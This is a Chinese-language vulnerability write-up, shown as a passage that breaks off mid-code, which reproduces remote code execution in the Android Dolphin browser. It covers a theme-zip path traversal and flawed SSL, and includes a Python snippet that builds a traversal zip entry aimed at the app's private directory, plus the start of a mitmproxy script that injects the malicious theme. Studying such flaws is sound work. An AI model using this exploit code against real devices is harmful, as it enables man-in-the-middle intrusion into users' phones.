 # 海豚浏览器与水星浏览器远程代码执行漏洞详解

0x00 简介
=====

最近国外安全研究人员rotlogix连续曝光了安卓版海豚浏览器（dolphin browser）和水星浏览器（mercury browser）的安全漏洞[1,2]，尽管这两个浏览器在国内并不流行，但其中的远程攻击手法和一系列漏洞组合的利用颇值得玩味，于是对这两个漏洞进行了复现和学习，分享与大家共同进步。

0x01 海豚浏览器远程代码执行漏洞
=====

该漏洞可以看作前段时间三星自带Swift输入法远程代码漏洞的延伸，不同之处在于通过中间人攻击patch了so文件，在so文件中的JNI_OnLoad函数中添加恶意代码，当so被加载后有机会实现远程代码执行。此次测试的海豚浏览器版本为V11.4.17。

1. 漏洞原理
-------

海豚浏览器允许用户选择并应用主题来改变浏览器的外观，当用户选择新主题下载时，主题文件会被下载

```
GET https://opsen-static.dolphin-browser.com/resources/themestore/Alonso_P.dwp

```

主题文件实际是一个zip文件，对其重命名后查看内容如下：

![image](http://drops.javaweb.org/uploads/images/a6045f4a4b9b7c81e0135b26f04d6180f6f6c6fb.jpg)

由于海豚浏览器并未对解压的文件进行验证，且安卓系统zip库的默认行为是允许解压文件到所在目录之外，因此通过中间人攻击，修改HTTP请求返回主题文件zip包中的内容，可以实现在海豚浏览器拥有权限的目录写文件。

注意到我们测试的版本与原文有所不同，下载主题文件的链接是https，但其SSL也没有正确实现，因此依然也能通过中间人攻击成功。

2. 漏洞利用——在私有目录写文件
-----------------

漏洞利用需要通过中间人攻击，将手机的流量透明代理到运行mitmproxy的服务器上。首先，利用python制作一个修改后的主题文件，即将同目录下名为1的文件添加到主题文件zip包中，且文件名为`../../../../../../data/data/mobi.mgeek.TunnyBrowser/files/this_should_not_exsist`

```
import zipfile

zf = zipfile.ZipFile("Alonso_P.dwp", "a")
zf.write("1", "../../../../../../data/data/mobi.mgeek.TunnyBrowser/files/this_should_not_exsist")
zf.close()

```

修改后的主题文件如下

![image](http://drops.javaweb.org/uploads/images/ab9cf981a0fbef729844331db88bca123d76acd9.jpg)

接下来，编写一段mitmproxy的inline script inject_evilso.py，将下载返回的主题文件替换成我们修改后的主题文件。

```
from libmproxy.protocol.http import HTTPResponse
from netlib.odict import ODictCaseless

def request(context, flow):
    if not flow.request.host =="opsen-static.dolphin-browser.com"  or not flow.request.path.endswith(".dwp"):
        return

    # Build response

    response = HTTPResponse([1, 1], 200, "OK", ODictCaseless([["Content-Type", "application/zip"]]), "yo!") # Inject theme
    # Inject theme
    try:
```